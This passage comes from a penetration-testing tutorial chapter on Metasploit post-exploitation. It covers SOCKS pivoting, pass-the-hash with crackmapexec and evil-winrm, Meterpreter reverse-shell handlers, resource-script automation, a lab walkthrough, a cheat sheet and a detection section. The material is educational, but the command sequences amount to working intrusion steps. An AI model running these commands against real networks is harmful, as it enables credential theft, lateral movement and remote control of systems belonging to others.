socks5  127.0.0.1 1080
```

Step 3 — prefix any tool with `proxychains` and it now reaches the internal network through session 1:

```
$ proxychains nmap -sT -Pn -p 445,1433,3389 -n 172.16.20.50
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.20.50:445  ...  OK
Nmap scan report for 172.16.20.50
PORT     STATE SERVICE
445/tcp  open  microsoft-ds
1433/tcp open  ms-sql-s
3389/tcp open  ms-wbt-server

$ proxychains crackmapexec smb 172.16.20.50 -u Administrator -H 8846f7eaee8fb117ad06bdd830b7586c
[proxychains] Strict chain ... 127.0.0.1:1080 ... 172.16.20.50:445 ... OK
SMB  172.16.20.50  445  DB01  [+] DMZ\Administrator:8846f7... (Pwn3d!)

$ proxychains evil-winrm -i 172.16.20.50 -u Administrator -H 8846f7eaee8fb117ad06bdd830b7586c
```

**Two hard rules when tunnelling Nmap through SOCKS:**

1. Use `-sT` (full TCP connect), never `-sS` (SYN). SOCKS forwards established TCP connections; it cannot carry the half-open raw packets a SYN scan sends. A SYN scan through proxychains silently returns garbage.
2. Use `-Pn` (skip host discovery) and often `-n` (no DNS). ICMP ping cannot traverse SOCKS, so without `-Pn` Nmap decides every host is down and scans nothing. `-sT -Pn` is the tunnelled-Nmap mantra.

The full pivot chain, end to end:



That diagram is the whole architecture of a Metasploit pivot: your tool speaks SOCKS to the proxy, the proxy consults the routing table, the table hands off to the session, and the session makes the actual connection from the compromised host. To the internal target, every packet appears to originate from WEB01 — which is precisely why pivoting is so powerful and why it must be strictly scoped.

---

## Part 10: Automation Part 1 — Resource Scripts and the -x One-Liner

A real engagement repeats the same console keystrokes hundreds of times: set up a handler, set `LHOST`/`LPORT`, run the same enumeration on every session. Automation removes the typing and, more importantly, makes the workflow **repeatable and reviewable** — you can diff, version-control and hand off a resource script in a way you cannot with ad-hoc typing.

### Resource (.rc) scripts

A resource script is a plain text file of `msfconsole` commands run top to bottom. Anything you can type at the `msf6 >` prompt goes in it.

Create `handler.rc`:

```
# handler.rc - stand up a persistent multi/handler
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.14.7
set LPORT 4444
set ExitOnSession false
exploit -j
```

Run it at launch:

```
$ msfconsole -q -r handler.rc
```

or from inside an already-running console:

```
msf6 > resource handler.rc
```

`-q` suppresses the banner; `-r` reads the resource file. `ExitOnSession false` + `exploit -j` means the handler backgrounds itself and keeps catching sessions — the standard unattended-listener setup.

### Resource scripts can contain Ruby

Resource scripts are more than a macro list — any line between `<ruby>` and `</ruby>` is executed as Ruby inside the console, so you can loop, branch and script the framework itself. This example runs the same recon on *every* live session automatically:

```
<ruby>
framework.sessions.each_pair do |sid, session|
  next unless session.type == "meterpreter"
  print_status("=== Session #{sid}: #{session.session_host} ===")
  session.console.run_single("run post/windows/gather/checkvm")
  session.console.run_single("run post/multi/recon/local_exploit_suggester")
end
</ruby>
```

Drop that in `triage.rc`, run `resource triage.rc`, and Metasploit fingerprints and privesc-triages every Windows session you hold, unattended.

### The -x one-liner

For a quick, throwaway automation you do not want to save to a file, `msfconsole -x` takes a semicolon-separated command string directly:

```
$ msfconsole -q -x "use exploit/multi/handler; \
set PAYLOAD windows/x64/meterpreter/reverse_tcp; \
set LHOST 10.10.14.7; set LPORT 4444; \
set ExitOnSession false; exploit -j"
```

This is the fastest way to stand up a handler from a single shell command — extremely handy when you generated a payload with `msfvenom` (Chapter 5) and just need the matching listener *now*, or in a shell script that provisions a whole test lab.

---

## Part 11: Automation Part 2 — AutoRunScript, setg and Unattended Ops

The `-x` and `.rc` mechanisms automate the *console*. Two more mechanisms automate at the *session* and *datastore* level, which is where large engagements really save time.

### AutoRunScript — run something the instant a session opens

`AutoRunScript` is a handler/exploit option that fires a command or resource script automatically the moment a new session is created — no human at the keyboard required. This is how you make a mass-phishing or mass-exploitation run self-triage.

```
msf6 exploit(multi/handler) > set AutoRunScript "post/windows/gather/enum_logged_on_users"
```

or run a multi-command resource script on every new session:

```
msf6 exploit(multi/handler) > set AutoRunScript "multi_console_command -rc /root/onconnect.rc"
```

where `onconnect.rc` might migrate to a stable process, grab `getuid`/`sysinfo`, and kick off `local_exploit_suggester`. Now every callback self-enumerates before you even look at it. `InitialAutoRunScript` runs *before* `AutoRunScript` and is typically used for a `migrate` so the session stabilises before anything else touches it.

### The global datastore — setg

Typing `set LHOST 10.10.14.7` in every module gets old. `setg` (set-global) sets a variable once for the *entire console*, so every module inherits it:

```
msf6 > setg LHOST 10.10.14.7
msf6 > setg RHOSTS 172.16.20.50
msf6 > setg LPORT 4444
msf6 > save                # persist globals to ~/.msf4/config for future launches
```

`get`/`getg` read them back, `unsetg LHOST` clears one, and `save` writes the globals to `~/.msf4/config` so they survive a restart. Setting `LHOST` and your callback port globally at the start of an engagement removes the single most common source of "why didn't my shell come back" mistakes — a payload built for one `LHOST` and a handler listening on another.

### Putting it together — a fully unattended workflow

Combine everything into one launch that stands up a listener, auto-triages every session, and needs no further typing:

```
# engagement.rc
setg LHOST 10.10.14.7
setg LPORT 4444
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set ExitOnSession false
set InitialAutoRunScript "migrate -f"
set AutoRunScript "multi_console_command -rc /root/onconnect.rc"
exploit -j
```

```
$ msfconsole -q -r engagement.rc
```

Every incoming session now migrates to a stable process, runs your standard on-connect recon, and lands in your console fully fingerprinted — the operator equivalent of an assembly line.



---

## Part 12: Full Hands-On Lab — Pivot From a Dual-Homed Web Host to an Internal Database

This lab ties the whole chapter together: land on a dual-homed host, enumerate, loot a hash, route into the hidden subnet, stand up SOCKS, and use a non-Metasploit tool to compromise an internal target. Reproduce it in a lab you own (three VMs on an isolated host-only network: your Kali attacker, WEB01 dual-homed on `10.10.10.0/24` + `172.16.20.0/24`, and DB01 only on `172.16.20.0/24`). Do not run any of this against infrastructure you are not authorised to test.

**Topology**



**Step 0 — Assume the foothold.** By the methods of Chapters 4 and 5 you already have Meterpreter session 1 on WEB01 as a local admin. Confirm:

```
msf6 > sessions -l
  Id  Type                     Information            Connection
  --  ----                     -----------            ----------
  1   meterpreter x64/windows  WEB01\localadmin       10.10.14.7:4444 -> 10.10.10.40:49207
```

**Step 1 — Situational awareness. Find the second network.**

```
meterpreter > getuid
Server username: WEB01\localadmin
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > ipconfig
Interface 11 : 10.10.10.40   255.255.255.0
Interface 14 : 172.16.20.10  255.255.255.0     <-- the hidden network
```

**Step 2 — Loot a credential for later reuse.**

```
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
```

Save that NT hash — `8846f7eaee8fb117ad06bdd830b7586c`. If DB01 reuses the local admin password (extremely common), this hash is your key.

**Step 3 — Autoroute into `172.16.20.0/24`.**

```
meterpreter > run autoroute -s 172.16.20.0/24
[+] Added route to 172.16.20.0/255.255.255.0 via 10.10.10.40
meterpreter > run autoroute -p
   Subnet        Netmask         Gateway
   172.16.20.0   255.255.255.0   Session 1
```

**Step 4 — Discover and scan the internal target (Metasploit-native, over the route).**

```
meterpreter > background
msf6 > use post/multi/gather/ping_sweep
msf6 post(...) > set RHOSTS 172.16.20.0/24
msf6 post(...) > set SESSION 1
msf6 post(...) > run
[+] 	172.16.20.50 host found

msf6 > use auxiliary/scanner/portscan/tcp
msf6 auxiliary(...) > set RHOSTS 172.16.20.50
msf6 auxiliary(...) > set PORTS 445,1433,3389
msf6 auxiliary(...) > run
[+] 172.16.20.50:445 - TCP OPEN
[+] 172.16.20.50:1433 - TCP OPEN
[+] 172.16.20.50:3389 - TCP OPEN
```

DB01 is alive and running SMB, MSSQL and RDP — none of which your Kali box could see two minutes ago.

**Step 5 — Stand up SOCKS so non-Metasploit tools can reach DB01.**

```
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set SRVHOST 127.0.0.1
msf6 auxiliary(server/socks_proxy) > set SRVPORT 1080
msf6 auxiliary(server/socks_proxy) > set VERSION 5
msf6 auxiliary(server/socks_proxy) > run -j
[*] Starting the SOCKS proxy server
```

Confirm `/etc/proxychains4.conf` ends with `socks5 127.0.0.1 1080`.

**Step 6 — Pass-the-hash into DB01 with a non-Metasploit tool, through the pivot.**

```
$ proxychains -q crackmapexec smb 172.16.20.50 -u Administrator \
    -H 8846f7eaee8fb117ad06bdd830b7586c
SMB  172.16.20.50  445  DB01  [*] Windows Server 2019 x64
SMB  172.16.20.50  445  DB01  [+] DB01\Administrator 8846f7... (Pwn3d!)

$ proxychains -q evil-winrm -i 172.16.20.50 -u Administrator \
    -H 8846f7eaee8fb117ad06bdd830b7586c
*Evil-WinRM* PS C:\> hostname
DB01
*Evil-WinRM* PS C:\> type C:\Users\Administrator\Desktop\proof.txt
7f3a...internal-flag...9b2c
```

You just compromised a host on a network your attack machine has no route to, using a tool that has never heard of Metasploit, authenticating with a hash you never cracked — all through one Meterpreter session. That is the complete pivot loop.

**Step 7 — Optional: forward RDP for interactive access.**

```
msf6 > sessions -i 1
meterpreter > portfwd add -l 3390 -p 3389 -r 172.16.20.50
```
```
$ xfreerdp /v:127.0.0.1:3390 /u:Administrator /pth:8846f7eaee8fb117ad06bdd830b7586c /cert:ignore
```

**Step 8 — Clean up.** Leaving routes, SOCKS jobs and forwards configured is sloppy and, on a real engagement, a reporting/liability problem:

```
meterpreter > portfwd flush
meterpreter > background
msf6 > route flush
msf6 > jobs -K            # kill the SOCKS proxy background job
msf6 > creds -o loot/db01-creds.csv
```

---

## Part 13: Detection & Defense Angle

Everything above generates telemetry. A defender who understands the Metasploit pivot can catch it at several independent points, and a red-teamer who understands those detections knows which steps are loud. This is the one consolidated defensive section; it covers the whole chapter.

**Network-level signals.** A pivot fundamentally changes traffic patterns in ways monitoring can see:

| Behaviour | What the blue team sees | Detection idea |
| --- | --- | --- |
| SOCKS/routed pivot | An internal host (WEB01) suddenly initiating many connections to peers it never talks to | Baseline east-west flows; alert on new internal→internal fan-out |
| Long-lived C2 session | A persistent TCP connection from an internal host to an external IP on an odd port | NetFlow / Zeek long-connection + rare-destination scoring |
| Internal port scanning | One host connecting to many ports across a subnet in seconds | IDS portscan signature on internal sensors, not just perimeter |
| Meterpreter default staging | The classic stager download / TLS with default Metasploit cert | Suricata/Snort rules for Meterpreter, JA3 fingerprints |

**Host-level signals.** Metasploit's post and escalation modules leave distinctive host artefacts:

| Action | Artefact | Log source |
| --- | --- | --- |
| `getsystem` (technique 1) | Transient service + named pipe impersonation | Sysmon 17/18 (odd pipe), Security 7045/4697 (service install) |
| `hashdump` / kiwi | LSASS handle open with suspicious access mask | Sysmon 10 targeting `lsass.exe`; Defender ASR "block credential stealing" |
| `migrate` | Cross-process remote thread / DLL injection | Sysmon 8 (CreateRemoteThread), EDR injection heuristics |
| `load kiwi`/incognito | In-memory mimikatz signatures, token manipulation | EDR memory scanning, AMSI, event 4624/4672 anomalies |
| Local exploit modules | Spawned helper process (e.g. notepad host), payload callback | Sysmon 1 (unexpected child), 3 (network from odd process) |

**Defensive controls that actually blunt pivoting** (worth naming because they change the attacker's calculus):

- **Network segmentation and host-based firewalls** are the single biggest obstacle — if WEB01 physically cannot reach `172.16.20.50:445`, no amount of `autoroute` helps. Deny east-west by default; the DMZ web host should not be able to open SMB to the database VLAN.
- **LSASS protection** — Credential Guard, RunAsPPL, and Defender's ASR credential-theft rule break `hashdump`/kiwi outright on modern, hardened Windows.
- **Disabling WDigest** (default since Windows 8.1/2012 R2) removes the cleartext-password recovery kiwi relied on in the example.
- **EDR with memory scanning** catches the in-memory Meterpreter and mimikatz that on-disk AV misses — which is exactly why the msfvenom encoders of Chapter 5 are *not* an evasion strategy.

**Red-team takeaway from the defender's list:** the loud steps are `getsystem`, `hashdump`/kiwi, `migrate` into system processes, and default-config staging. The quiet steps are the routing itself and a `-sT` scan that looks like ordinary TCP connections. Sequence your operation so the noisy actions are minimal and deliberate, and lean on the routing/SOCKS layer — which produces far less host telemetry than repeatedly injecting into processes.

---

## Part 14: Common Pitfalls

Every one of these has burned real operators; internalise them and skip the frustration.

- **`set RHOSTS` on a post module.** Post modules take `SESSION`, not `RHOSTS`. If a module wants a session ID and you keep setting a host, you are using the wrong option (or the wrong kind of module).
- **`exit` instead of `background`.** `exit` from inside Meterpreter kills the session. Use `background` or `Ctrl+Z` to keep the foothold and return to the console.
- **SYN-scanning through a SOCKS pivot.** `nmap -sS` through proxychains returns nonsense. SOCKS carries established TCP only — always `-sT -Pn` (and usually `-n`) through a pivot.
- **Forgetting `-Pn` over a pivot.** ICMP does not traverse SOCKS/routes, so Nmap marks every host down and scans nothing. Skip host discovery.
- **Stale routes after a session dies.** If the session that owns a route drops, traffic to that subnet black-holes with confusing errors. `route flush` and re-establish.
- **Wrong architecture for a local exploit.** A `x86` Meterpreter on a `x64` host makes many local exploits fail; check `sysinfo`'s architecture and migrate into a matching-arch process first.
- **`hashdump` without SYSTEM.** It needs SYSTEM. If it errors or returns nothing, `getuid` — you probably still need to escalate.
- **Handler `LHOST`/`LPORT` mismatch with the payload.** The single most common "no shell" cause. Set them globally with `setg` at the start so the payload and handler can never disagree.
- **Running kiwi in a monitored network expecting stealth.** It is one of the most-detected tools in existence. In the lab it is fine; against an EDR-defended target it will alert. Know that before you run it.
- **Leaving the SOCKS job and forwards running.** They are open relays into the client network. Kill jobs and flush forwards at cleanup.

---

## Part 15: Final Revision / Summary

The through-line of this chapter: **a session is a beginning, not an end.** Everything after the callback follows one loop — situational awareness, local enumeration, loot, escalate, (optionally) persist, pivot, and repeat on each newly reachable host.

- **Sessions** are addressed by ID. `sessions -l/-i/-k`, `background`, `migrate` and naming are the muscle memory the rest depends on. A post module runs *through* a session (`SESSION`), an exploit module produces one (`RHOSTS`).
- **Situational awareness** — `getuid`, `sysinfo`, `getprivs`, `ipconfig`, `route` — decides everything. The single most valuable finding is a **dual-homed host**, because it is a bridge to a network you cannot otherwise reach.
- **Post modules** (`post/windows/gather/*`, `post/multi/*`) scale enumeration and write to loot/DB. `local_exploit_suggester` triages privesc in seconds.
- **Looting** — `hashdump` for SAM NT hashes (pass-the-hash ready), `load kiwi` for cleartext/tickets from LSASS, and the `creds` store to organise and reuse it all.
- **Escalation** — `getsystem` if you are already admin, a local exploit module if you are not, `incognito` token impersonation if a privileged user is present.
- **Pivoting** is the payoff. `autoroute -s <subnet>` (or `route add`) makes a session carry traffic for an internal network; Metasploit-native scanners then work over it. For everything else, `auxiliary/server/socks_proxy` + `proxychains` (`-sT -Pn`!) makes your entire toolkit pivot-aware, and `portfwd` surgically forwards one service.
- **Automation** turns manual repetition into a reviewable pipeline: `.rc` resource scripts (with embedded `<ruby>`), `msfconsole -x` one-liners, `AutoRunScript`/`InitialAutoRunScript` for self-triaging callbacks, and `setg` + `save` for a consistent global datastore.
- **Detection** is real: routing changes east-west flow, and `getsystem`/`hashdump`/kiwi/`migrate` are all high-signal on the host. Segmentation, LSASS protection and EDR are what actually stop the pivot.

This closes the Metasploit arc. Chapters 3–5 got you a session and a payload; this chapter turned that session into control of a network. The next chapter moves beyond the framework into the broader post-exploitation and lateral-movement tooling (`impacket`, `crackmapexec`, `evil-winrm` in depth) that you drove through the SOCKS pivot here.

---

## Part 16: Cheat Sheet / Quick Reference

**Sessions**

```
sessions -l                     # list
sessions -i <id>                # interact
sessions -k <id> / -K           # kill one / all
sessions -u <id>                # upgrade shell -> meterpreter
sessions -c "cmd" -i <id>       # run one cmd in a session
background  (or Ctrl+Z)         # leave session alive, return to console
sessions --name web01 -i <id>   # name a session
```

**Situational awareness (in Meterpreter)**

```
getuid / getprivs / sysinfo
ipconfig / route / arp
ps / migrate <pid>
getsystem [-t 1|3]
```

**Post modules**

```
run post/windows/gather/enum_logged_on_users
run post/windows/gather/enum_system
run post/multi/recon/local_exploit_suggester
run post/multi/gather/ping_sweep    (set RHOSTS + SESSION)
use post/...; set SESSION <id>; run
```

**Loot**

```
hashdump                        # SAM NT hashes (needs SYSTEM)
load kiwi; creds_all            # LSASS creds/tickets
lsa_dump_sam / lsa_dump_secrets
creds        /  creds -o out.csv
load incognito; list_tokens -u; impersonate_token "DOM\\User"
```

**Escalation**

```
getsystem
use exploit/windows/local/<mod>; set SESSION <id>; set LHOST/LPORT; run
load incognito; impersonate_token ...
```

**Pivoting**

```
run autoroute -s 172.16.20.0/24         # add route via current session
run autoroute -p                        # list routes
route add 172.16.20.0/24 <id>           # console equivalent
route print / route remove ... / route flush
portfwd add -l 3390 -p 3389 -r <host>   # forward one port
portfwd list / delete / flush
use auxiliary/server/socks_proxy; set SRVPORT 1080; set VERSION 5; run -j
# /etc/proxychains4.conf ->  socks5 127.0.0.1 1080
proxychains nmap -sT -Pn -n -p445,1433 <host>
proxychains crackmapexec smb <host> -u user -H <NThash>
proxychains evil-winrm -i <host> -u user -H <NThash>
```

**Automation**

```
msfconsole -q -r script.rc              # run resource script
msfconsole -q -x "use ...; set ...; exploit -j"
resource file.rc                        # from inside console
setg LHOST 10.10.14.7 ; setg LPORT 4444 ; save
set AutoRunScript "post/windows/gather/enum_logged_on_users"
set InitialAutoRunScript "migrate -f"
# <ruby> ... framework.sessions.each_pair ... </ruby>  inside .rc
jobs -l / jobs -K                       # list / kill background jobs (handlers, SOCKS)
```

**Tunnelled-Nmap mantra:** `-sT -Pn -n` — connect scan, no ping, no DNS.

---

## Part 17: Practice Labs & Resources

Every item here trains a specific skill from this chapter — pivoting, post-exploitation, or automation — not generic "learn Metasploit" content.

- **TryHackMe — "Wreath"** — the canonical beginner-to-intermediate pivoting network: compromise a public host, then pivot through it to reach internal-only machines. Practises exactly the autoroute/SOCKS/proxychains workflow of Parts 8–9.
- **TryHackMe — "Metasploit: Meterpreter"** and **"Metasploit: Exploitation"** — drill the post-module, session-management and hashdump mechanics of Parts 2–5.
- **HackTheBox — "Pivotapi", "Reddish", and the Pro Labs (Dante, Offshore)** — multi-network environments built around chained pivots; Dante in particular is a pure pivoting gauntlet where every deeper subnet requires a fresh route through the last box.
- **HackTheBox Academy — "Pivoting, Tunneling, and Port Forwarding" module** — the most thorough written treatment of routing, SOCKS, portfwd, and the non-Metasploit alternatives (chisel, sshuttle, ligolo-ng) that complement this chapter; pairs directly with Part 8–9.
- **OSCP-style lab networks (PWK/Proving Grounds chains)** — the exam explicitly gates internal hosts behind a pivot; practising `autoroute` + proxychains until it is reflexive is core exam prep.
- **Vulnhub — "Tr0ll", "IMF", "Node"** — single-host boxes good for drilling the post-exploitation loop (enumerate → loot → local_exploit_suggester → getsystem) end to end.
- **Build your own two-subnet lab** — the Part 12 topology (Kali + dual-homed WEB01 + internal DB01 on a host-only network) is the single best way to internalise pivoting. Use VirtualBox internal networks or two VMware host-only nets and reproduce the lab until every step is muscle memory.

**Practice questions**

1. You have a Meterpreter session on a host whose `ipconfig` shows two interfaces: `10.10.10.40/24` and `192.168.30.5/24`. Your Kali box is on `10.10.10.0/24`. Write the exact commands to (a) make Metasploit route to `192.168.30.0/24` and (b) TCP-scan ports 445 and 3389 on `192.168.30.20` through that route.
2. Explain precisely why `proxychains nmap -sS -p445 172.16.20.50` returns useless results while `proxychains nmap -sT -Pn -p445 172.16.20.50` works. What is the SOCKS proxy able and unable to carry?
3. You run `hashdump` and get "Insufficient privileges". `getuid` shows `WEB01\localadmin`. Give two different Metasploit approaches to reach the point where `hashdump` succeeds, and state the privilege each one lands you in.
4. Write a resource script that stands up a `multi/handler` for `windows/x64/meterpreter/reverse_tcp`, sets `LHOST`/`LPORT` globally, keeps the handler alive across multiple sessions, and auto-migrates every new session into a stable process before running `local_exploit_suggester`.
5. A blue-team analyst reports "an internal web server suddenly opened SMB connections to twelve hosts in the database VLAN within ten seconds." Map that observation to the exact chapter step that produced it, and name two host-level artefacts the same operation would have left on the web server.

---

*Also on [Praneeth's portfolio](https://ping-praneeth.vercel.app/notebook/pentest-exploitation/06-metasploit-part-4-post-modules-pivoting-and-automation), with comments and the latest edits.*
